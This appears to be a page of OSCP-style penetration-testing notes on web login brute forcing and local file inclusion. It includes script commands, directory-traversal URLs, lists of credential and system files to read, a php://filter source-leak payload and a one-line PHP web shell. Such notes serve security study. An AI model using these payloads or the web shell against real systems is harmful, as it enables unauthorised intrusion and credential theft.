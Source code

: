 # Brute Force Login Screens
- Generally doesn't work but should be tried anyways in case it's low hanging fruit. 
- It is more likely to be successful if we already have some usernames that will likely work. 
- General usernames and passwords should also be tried but we can't have this list be too long because it will take time. 

1. Turn on proxy (Burp or ZAP) and capture requests. 
2. Attempt a general login. 
3. Look at the request being sent to identify the method (GET or POST) to send the authentication credentials as well as the variable name for the username and password.
4. See what keyword is displayed upon a failed login attempt.
5. Create or use a list of usernames to attempt brute force login. [Default Username List](https://github.com/neogeo56/OSCP/blob/master/Web/Brute_Force/Default-Usernames.txt)
6. Create or use a list of passwords to attempt brute force login. [Default Password List](https://github.com/neogeo56/OSCP/blob/master/Web/Brute_Force/rockyou-20.txt)
7. Create a colon-seperated file of username and password combinations using the [UserPass_List_Maker.py](https://github.com/neogeo56/OSCP/blob/master/Web/Brute_Force/UserPass_List_Maker.py)
```
python3 UserPass_List_Maker.py [user list] [password list]
```
- Creates the colon-seperated file "User_Pass.txt" in the directory the script was run from.
8. Brute force login screen with [Web_Brute_Force_2.py](https://github.com/neogeo56/OSCP/blob/master/Web/Brute_Force/Web_Brute_Force_2.py) python script.
```
python3 Web_Brute_Force_2.py -f/--file [colon seperated username:password file] -U/--URL [URL to the web application login form] -k/--keyword [Keyword in the HTML used to identify failed login attempts] -uP [HTTP parameter that passes the username] -pP [HTTP parameter that passes the password] -o [outfile location]
```

# Local File Inclusion Test

## Evaluate Open Home Directories
Apache by default creates a home directory for each user account and sometimes these home directories are accessible through web page navigation. 
1. Compile a listing of usernames or guessed usernames. 
2. In the web browser just attempt accessing home directories: 
```
[IP Address / Hostname]/~[username]
```

## Directory Traversal
In areas of the application where we see directories hardcoded into the web address bar, we should try directory traversal attacks to see if we can navigate to any file on the system. 
### Xnix 
```
Http(s)://[web address]?[variable]=../../../../../../../../../../../../../../../../../[file location like etc/passwd or etc/resolve.conf]
```
- Try with no extension and then try with common extensions like .htm or .html or .txt 
- Also try to delete pre-filled extensions (txt, php, etc.) to see if we can get a verbose error message to pull threads on. 
### ISS / Windows 
```
Http(s)://[web address]?[variable]=../../../../../../../../../../../../../../../../../[file location like \%systemroot%\system32\config] 
```
### Valuable File Locations To Read w/ LFI
- SSH Key locations if Port 22 is open. 
```
Var/log/auth.log 
```
- OS files for passwords. 
```
/etc/passwd
```
```
/etc/shadow
```
  - Generally can't read this unless the permissions to it are missconfigured.  If we can read this then we usually can read anything and it's over.
- Log poisoning
```
var/log/apace2/access.log
```
- Windows Files
```
%windir%\repair\sam 
%windir%\System32\config\RegBack\SAM 
%windir%\repair\system 
%windir%\repair\software 
%windir%\repair\security 
%windir%\debug\NetSetup.log (AD domain name, DC name, internal IP, DA account) 
%windir%\iis6.log (5,6 or 7) 
%windir%\system32\logfiles\httperr\httperr1.log 
C:\sysprep.inf 
C:\sysprep\sysprep.inf 
C:\sysprep\sysprep.xml 
%windir%\Panther\Unattended.xml 
C:\inetpub\wwwroot\Web.config 
%windir%\system32\config\AppEvent.Evt (Application log) 
%windir%\system32\config\SecEvent.Evt (Security log) 
%windir%\system32\config\default.sav 
%windir%\system32\config\security.sav 
%windir%\system32\config\software.sav 
%windir%\system32\config\system.sav 
%windir%\system32\inetsrv\config\applicationHost.config 
%windir%\system32\inetsrv\config\schema\ASPNET_schema.xml 
%windir%\System32\drivers\etc\hosts (dns entries) 
%windir%\System32\drivers\etc\networks (network settings) 
%windir%\system32\config\SAM (only really useful if you have access to the files while the machine is off) 
```

## Read Remote System PHP File Source
1. Attempt a PHP wrapper function around a PHP file location we know renders in the webpage to identify if the PHP is vulnerable to leaking PHP source code.
```
...?[variable]=php://filter/convert.base64-encode/resource=[known file location that renders]
```
  - You shouldn't include the PHP extension in the URL because this command can only execute on php extension files of the web server because you are abusing a PHP command already.
2. If successful, the base64 output of the PHP file is shown, which we can then copy to our attacker box and decode to read the plaintext version of any PHP file.

### Identify any PHP 'include' Functions
- The 'include()' function in PHP code is used to open files based on user input / variables.
- This function is commonly used insecurely in that if input is not sanitized appropriately, a user can force the web browser to automatically execute any PHP code that they point the web browser to on the target box.
- If we can upload a PHP reverse shell to any location on the target box, we can abuse the 'include()' function LFI to execute the reverse shell back to our attacker machine.
  - A simple PHP command injection file that we can create allows us to input whatever command we want into an HTTP request to have it executed as long as another part of the HTTP request is navigating to this PHP file on the web server box and abusing the 'include' functionality.
  ```
  <?php echo system ($_REQUEST['neogeo']); ?>
  ```
  ```
  GET /?neogeo=[cmd]
  ```
  - A reliable PHP reverse shell can be found here (PHP Reverse Shell)[https://github.com/neogeo56/OSCP/blob/master/Shells/php-reverse-shell.php].  Note that you have to adjust the IP and port variables in the shell before executing.
  

